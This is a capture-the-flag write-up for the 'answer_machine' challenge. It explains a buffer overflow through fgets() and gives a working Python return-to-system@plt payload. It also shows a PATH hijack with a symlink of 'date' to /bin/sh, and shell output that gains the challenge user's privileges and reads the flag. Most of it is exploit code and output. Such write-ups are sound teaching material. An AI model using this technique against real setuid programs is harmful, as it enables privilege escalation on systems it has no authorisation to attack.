### Solved by superkojiman

This time round, we have ASLR and a non-executable stack. No problem. The vulnerability is still pretty easy, fgets() copies more data over to buffer which allows us to overwrite EIP in get_message(). Question is, where to return to? In this case, I chose to return to system@plt and pass system() `date`. I just needed to update my PATH environment to look at the current directory first, and have a symlink to /bin/sh. Here's the exploit:

```python
#!/usr/bin/env python
from struct import pack
buf = ""
buf += "A"*48
buf += pack("<I", 0x8048490)    # system@plt
buf += "BBBB"                   # dummy ret from system()
buf += pack("<I", 0x8049758)    # ptr to string "date"

open("in.txt", "w").write(buf)
```

And now getting the flag:

```
team24254@shell:~/koji$ export PATH=.:${PATH}
team24254@shell:~/koji$ ln -sf /bin/sh date
team24254@shell:~/koji$ (cat in.txt;cat) | /problems/answer_machine/answer_machine
Welcome, today is Sun Apr 10 21:19:34 EDT 2016
I can't talk now, so leave a message:
Error opening file; message moved to trash
id
uid=1028(team24254) gid=1000(ctfgroup) euid=1081(answer_machine) groups=1004(answer_machine),1000(ctfgroup)
cat /problems/answer_machine/flag.txt
good_thing_sh_was_in_that_string
```
